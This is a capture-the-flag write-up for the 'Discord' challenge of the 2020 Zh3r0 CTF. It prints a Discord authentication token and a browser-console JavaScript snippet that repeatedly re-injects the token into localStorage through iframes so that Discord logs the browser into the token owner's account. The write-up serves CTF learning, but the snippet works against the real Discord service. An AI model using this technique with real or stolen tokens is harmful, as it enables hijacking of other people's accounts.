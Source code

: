 This is a writeup for the Discord challenge in the 2020 Zh3r0 CTF.

The description of the challenge gives you some sort of hash that looks very much like a web authentication hash.

`NzIyMzM1MTQ5NDA0MTkyODIw.Xuhmgw.SZfbikLok4FRqbHQY4L3htLcTaU`


The solution to this challenge is based on the way discord handles authentication tokens through the browsers local storage. This article describes the concept well:
https://blog.himbeer.me/2019/09/02/updated-2019-finding-out-your-discord-users-token-on-mobile-too/

Because of this, we can use a piece of javascript in the browser console to skirt the protections that are in place by discord. 

```
function login(token){
    setInterval(() => {
        document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
        location.reload();
    }, 2500);
}

login("NzIyMzM1MTQ5NDA0MTkyODIw.Xuhmgw.SZfbikLok4FRqbHQY4L3htLcTaU");
```

To get to the console, in firefox you can either use ctrl + shift + I or navigate to the options menu and navigate to Web Developer > Web Console.

From there, paste the code above into your browser's javascript console

![alt text](https://raw.githubusercontent.com/trott4425/Zh3r0-CTF/master/web/Discord/DiscordImageCTF.PNG)

The protection that is in place by discord is to remove the token property from the local storage object when a page is reloaded. However, with the code that we used, the token property is being constantly reinitialized during the page refresh, so that the browser eventually submits it to the webserver, granting access to the account that the token was generated from.



